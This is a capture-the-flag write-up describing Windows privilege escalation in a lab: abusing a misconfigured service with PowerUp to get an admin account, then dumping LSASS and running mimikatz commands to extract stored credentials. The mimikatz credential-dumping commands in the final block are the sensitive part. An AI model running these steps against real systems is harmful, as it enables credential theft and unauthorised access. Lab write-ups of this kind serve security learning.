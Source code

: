 - Then I created a malicious .bat file that creates an user and gives permissions to that user but that didn't work either

- Next thing was to use [PowerUp](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/powerup)

- With PowerUp executed I noticed a couple stuff i could do like abusing the service `bajordas-svc` with PowerUp

![image](https://user-images.githubusercontent.com/12052283/186280695-ce41f69b-a109-4bdc-b58c-1c10be302f2c.png)

- Abused the `bajordas-svc` and got a new user with Admin privileges

![image](https://user-images.githubusercontent.com/12052283/186280851-bcfbd706-5081-4571-b07e-10dae5b5393b.png)

- To sign-in as this user I used rdp and got the flag inside `C:\Users\Administrator\Desktop`


```bash
flag{GameOn!}
```

<br>

## Third recon

### Other Os Are People 2

*"Larapios said there are some Linux machines loose in the environment and the System Administrator reuses their credentials 😩."*

*"Can you access them?"*

<br>


- I jumped to `192.168.111.41` to try to find creds because they could be helpful to the future

- First thing I did was to use [mimikatz](https://github.com/ParrotSec/mimikatz)

- For somereason I had touble using mimikatz to dump some creds, even with the latest version I wasn't lucky

![image](https://user-images.githubusercontent.com/12052283/186284584-2eff753a-cad1-42b0-a1e9-4d16a1d82d03.png)

- @darkcookie gave me an hint so I tried to [dump the LSASS](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf) and then use the minidump to get stored credentials

![image](https://user-images.githubusercontent.com/12052283/186284823-3f6bcb3d-6c7d-42f3-9e2b-226be1338436.png)

- After following the medium guide I got a creds for `bacano.do.it` and some other known accounts

![image](https://user-images.githubusercontent.com/12052283/186285244-3ec93fc5-5d87-44ea-b7b5-2c9b66f6ff59.png)


```bash
PS C:\Users\brun0\Desktop> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::trust /patch

mimikatz # sekurlsa::minidump C:\Users\brun0\AppData\Local\Temp\lsass.DMP
Switch to MINIDUMP : 'C:\Users\brun0\AppData\Local\Temp\lsass.DMP'

mimikatz # sekurlsa::logonpasswords
```